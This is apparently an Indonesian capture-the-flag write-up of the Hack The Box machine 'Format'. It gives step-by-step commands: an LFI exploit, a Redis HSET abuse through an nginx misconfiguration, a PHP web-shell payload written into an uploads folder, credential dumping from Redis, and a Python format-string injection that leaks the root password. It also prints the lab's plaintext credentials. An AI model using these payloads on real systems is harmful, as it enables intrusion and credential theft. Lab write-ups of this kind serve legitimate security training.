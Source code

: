 ## Solver
curl format.htb found subdomain app.microblog.htb, berarti ada domain microblog.htb
tambahkan ke /etc/hosts

Cek microblog.htb:3000 didapatkan repos cooper yang berisi source code microblog.
Cek app.microblog.htb, bisa register dan buat subdomain serta blog

Review source code microblog, yang pertama didapatkan adalah vulnerable dengan LFI pada parameter id
Cek /etc/nginx/sites-enabled/default diketahui ada misconfiguration pada /static/(.*)/(.*) dan proxy pass

Untuk dapat melakukan upload file, harus mendapatkan akses level Pro
Untuk mendapatkan level Pro, harus rubah value pro=false menjadi true di database redis.

Karena ada misconfigurations pada config nginx, maka bisa dimanipulasi untuk redis HSET
https://exploit-notes.hdks.org/exploit/database/redis-pentesting/#get%2Fset-key-value-commands-with-nginx-misconfiguration

User sudah menjadi pro, sekarang adalah upload image agar folder uploads di create
Setelah upload image dan aplikasi membuat folder uploads, lanjut ke write web shell file

```
/edit/index.php
id=/var/www/microblog/banua/uploads/rev.php&txt=<?php+echo+shell_exec('uname+-a');?>
```

Setelah itu webshell didapatkan, tinggal edit command untuk reverse shell

Getting User
================
Karena redis connect menggunakan redis.sock, kita bisa connect dengan file redis.sock tersebut juga dengan www-data
redis-cli -s /var/run/redis/redis.sock

Setelah itu, dump key dengan command KEYS *
cek type key dengan TYPE cooper.dooper, diketahui cooper.dooper adalah type hash

Tinggal HGETALL cooper.dooper dan didapatkan password untuk cooper:zooperdoopercooper

PRIVES
================

HSET ddd username '{license.__init__.__globals__}'
/usr/bin/license -p ddd

Got output dict containing 'secret_encoded': b'unCR4ckaBL3Pa$$w0rd'
Try login as root with password unCR4ckaBL3Pa$$w0rd

Pwned!!!